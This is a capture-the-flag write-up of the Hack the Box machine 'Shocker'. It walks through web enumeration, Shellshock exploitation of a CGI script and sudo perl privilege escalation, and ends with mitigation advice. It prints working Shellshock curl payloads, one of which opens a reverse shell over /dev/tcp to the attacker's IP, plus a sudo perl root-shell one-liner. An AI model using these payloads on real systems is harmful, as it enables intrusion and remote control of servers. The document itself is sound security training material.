 ```yaml
--- 
title: "Hack the Box (HTB) - Shocker"
description: "Exploiting Shellshock & Escalating with poor sudo permissions"
date: 2024-07-20 12:00:00 -100
image: /assets/images/HTB - Shocker/HTB - Shocker Thumbnail.png
categories: [CTF]
tags: [shellshock,web application]    # TAG names should always be lowercase
---
```


## Enumeration

Let's start by running a [AutoRecon](https://github.com/Tib3rius/AutoRecon) against our box at `10.10.10.56`

```bash
sudo autorecon 10.10.10.56
```

Checking the full TCP scan of the machine, we see the following ports open:

| Port     | State | Service | Reason           | Version                                |
|----------|-------|---------|------------------|----------------------------------------|
| 80/tcp   | open  | http    | syn-ack ttl 63   | Apache httpd 2.4.18 ((Ubuntu))        |
| 2222/tcp | open  | ssh     | syn-ack ttl 63   | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2        |

SSH is on a non standard port, but is irrelevant. Let's check out the apache web server running on port 80

![Apache web server](/assets/images/HTB%20-%20Shocker/Apache%20web%20server.png)

Nothing much here, checking  the source code only reveals bug.jpg which isn't useful

Let's check our dirbuster scan provided to us by autorecon

![Dirbuster](/assets/images/HTB%20-%20Shocker/Shocker%20Dirbuster.png)

Only 200 response on the root directory and bug.jpg.

I decided  to run a `feroxbuster` scan manually to check the directories as well

![CGI-BIN](/assets/images/HTB%20-%20Shocker/CGI%20BIN.png)

We're getting a 403 access denied on cgi-bin/ which is a common directory for web severs to store CGI executable scripts. These scripts are used to generated dynamic content on web servers. Let's run another enumeration on `cgi-bin/` to see what scripts we can find

```bash
feroxbuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py,php
```

![User.sh Script](/assets/images/HTB%20-%20Shocker/user.sh.png)

We get a 200 response on this /user.sh script. Let's curl the request to see what we get

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Curl Request](/assets/images/HTB%20-%20Shocker/Curl%20Request.png)

I got stuck here, apparently this directory is vulnerable to an exploit called [Shellshock](https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html#:~:text=Shellshock%2C%20also%20known%20as%20the,to%20a%20Bash%2Dbased%20application.). It's a vulnerability in old versions of Bash that lets attackers send HTTP requests that manipulate variables due to the improper handling of environment variable function

We can run a specific nmap scan against this to ascertain if the target is vulnerable

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![Shocker Nmap](/assets/images/HTB%20-%20Shocker/Shocker%20nmap.png)

Our nmap scans confirms the target is vulernable to [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271) I.E Shellshock

### Exploiting without Metasploit ?

There's a metasploit module that gets us user level access with the click of a button, but let's try exploiting manually for this box

We will use the following curl to make a malicious HTTP request with a specially crafted User-Agent header

```bash
url -H "User-Agent: () { :;}; echo; /bin/bash -c 'whoami'"
```

- `() { :;}:` Defines a function in the User-Agent header (empty)
- `/bin/bash -c 'id'` The command that is executed by the vulnerable bash interpreter

Since this sever is confirmed to be running an outdated version of bash, it will process our user-agent header as a function definition. This happens because bash (**before the shellshock update**) processes the user agent header as a function definition instead of plain text

![Shell Shocked](/assets/images/HTB%20-%20Shocker/Shell%20Shocked.png)

We have RCE. Let's get our shell going. I'll start up my nc listener and perform the following curl request with the reverse shell one liner

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Shell](/assets/images/HTB%20-%20Shocker/Shell.png)

## Privilege Escalation

Running `sudo -l` tells us the following:

- User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

We can run perl commands as root without a password. We can leverage this to execute /bin/sh to spawn a shell. Since we run this as sudo it will spawn a root shell

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh"'` 
```

GG, we've rooted Shocker!

![Rooted](/assets/images/HTB%20-%20Shocker/Root%20Shocker.png)

## Summary

1. Initial Enumeration  discovered a web server
2. Directory Busting  found /cgi-bin/user.sh
3. Nmap Scanning  confirmed vulnerability to Shellshock
4. Curl HTTP Request verified Shellshock exploit
5. Reverse Shell established a connection back to your machine
6. Ran sudo -l to discover sudo rights for usr/bin/perl without a password
7. Used perl to execute /bin/sh as root

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Shellshock (CVE-2014-6271) in CGI scripts  | Update Bash to the latest version. Ensure scripts properly sanitize input.|
| Sudo privilege escalation NOPASSWD | Restrict sudo permissions and require passwords for all commands

### Remediation References

- [Mitre.org - Update Bash to the latest version](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
- [Restrict sudo permissions and require passwords for all commands](https://www.sudo.ws/security.html).